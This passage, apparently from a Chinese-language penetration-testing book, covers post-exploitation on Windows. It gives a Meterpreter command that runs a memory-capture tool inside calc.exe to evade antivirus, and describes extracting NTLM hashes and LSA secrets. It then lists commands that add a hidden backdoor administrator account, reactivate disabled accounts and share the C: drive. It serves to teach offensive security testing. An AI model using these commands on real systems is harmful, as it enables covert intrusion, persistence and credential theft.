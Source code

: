 如前所述，系统内存包含了大量信息，对于任何攻击者来说，这些信息都是重要的。因此，它通常是需要获取的优先文件。系统内存可以从多个来源以单个镜像文件下载，如下所示：

+   通过向被攻陷的系统上传工具，并直接复制内存（这些工具包括**Belkasoft RAM Capturer**、**Mandiant Memoryze**和**MoonSols Dumpit**）

+   通过复制 Windows 的休眠文件 `hiberfil.sys`，然后使用取证工具挂载它以离线解密和分析该文件

+   通过复制虚拟机并将 VMEM（虚拟机的分页文件）文件转换为内存文件

如果你向被攻陷的系统上传了一个设计用来捕获内存的程序，这个程序有可能会被杀毒软件识别为恶意软件。大多数杀毒/EDR 软件可以识别内存采集软件的哈希签名和行为，并在其可能泄露敏感内容时发出警报保护物理内存。采集软件会被隔离，目标会收到警告，提示他们遭遇了攻击。

为了避免这种情况，使用 Metasploit Framework 完全在目标的内存中运行可执行文件，使用以下命令：

```
meterpreter> execute -H -m -d calc.exe -f <memory executable + parameters> 
```

上述命令执行 `calc.exe` 作为一个虚拟可执行文件，但实际上将内存采集可执行文件上传，并在其进程空间中运行。

该可执行文件不会出现在进程列表中，例如任务管理器中，且通过数据取证技术进行检测会更困难，因为它不会写入磁盘。此外，它将避免系统的杀毒软件，因为一般杀毒软件不会扫描内存空间以寻找恶意软件。

一旦物理内存被下载，可以使用 Volatility 框架进行分析。Volatility 是一组 Python 脚本，旨在对内存进行取证分析。如果操作系统受支持，Volatility 会扫描内存文件并提取以下内容：

+   足以*关联*镜像与其源系统的镜像信息和系统数据。

+   正在运行的进程、加载的 DLL、线程、套接字、连接和模块。

+   打开的网络套接字和连接，以及最近打开的网络连接。

+   内存地址，包括物理和虚拟内存映射。

+   LM/NTLM 哈希和 LSA 密钥。**LanMan**（**LM**）密码哈希是微软最初为保护密码而设计的方案。多年来，破解它们变得非常简单，可以将哈希值转换回实际密码。**NT LanMan**（**NTLM**）哈希是更新的版本，更能抵抗攻击。然而，它们通常与 NTLM 版本一起存储，以保证向后兼容性。**本地安全机构**（**LSA**）存储着本地密码的秘密：远程访问（有线或无线）、VPN、自动登录密码等。系统中存储的任何密码都是脆弱的，尤其是当用户重复使用密码时。

+   存储在内存中的特定正则表达式或字符串。

### 创建额外的账户

以下命令具有高度侵入性，通常在事件响应过程中会被系统所有者检测到。然而，攻击者经常会植入这些命令，以便将注意力转移到更持久的访问机制上：

| **命令** | **描述** |
| --- | --- |
| `net user attacker password /add``net user testuser testpassword /ADD /DOMAIN` | 创建一个名为`attacker`的新本地帐户，并将密码设置为`password`。如果你在域控制器上运行该命令，它还将相同的用户添加到域中。 |
| `net localgroup administrators attacker /add` | 将名为`attacker`的新用户添加到本地管理员组。在某些情况下，命令将是`net localgroup administrators /add attacker`。 |
| `net user username /active:yes /domain` | 将一个非活动或禁用的帐户更改为活动帐户。在小型组织中，这会引起注意。密码管理不善的大型企业可能有 30%的密码被标记为非活动，因此这可能是获取帐户的一种有效方式。 |
| `net share name$=C:\ /grant:attacker,FULL /unlimited` | 将`C:`（或指定的其他驱动器）作为 Windows 共享，并授予用户（攻击者）完全访问或修改该驱动器上所有内容的权限。 |

表 11.3：可用于在本地和域服务器上创建用户的 Windows 命令

如果你创建一个新的用户帐户，当有人登录到受损系统的欢迎屏幕时，会注意到这一点。为了使该帐户不可见，你需要通过命令行修改注册表，使用以下`REG`命令：

```
REG ADD "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\WinLogon\SpecialAccounts\UserList" /V account_name /T REG_DWORD /D 0 
```
